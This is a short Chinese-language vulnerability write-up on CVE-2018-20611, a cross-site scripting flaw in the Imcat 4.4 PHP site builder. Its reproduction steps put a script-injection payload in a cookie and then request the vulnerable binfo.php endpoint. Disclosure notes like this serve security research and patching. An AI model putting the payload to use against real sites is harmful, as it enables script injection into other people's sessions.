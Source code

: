 ```yaml
---
title: "（CVE-2018-20611）Imcat 4.4 xss"
id: zhfly2976
---
```


# （CVE-2018-20611）Imcat 4.4 xss

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本存在跨站脚本漏洞。远程攻击者可通过向root/tools/adbug/binfo.php?cookie URI发送特制的cookie利用该漏洞注入任意的Web脚本或HTML。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

将cookie的值修改成

```
"><script>alert(1)</script> 
```

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

然后访问

```
http://www.0-sec.org/root/tools/adbug/binfo.php?cookie` 
```

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md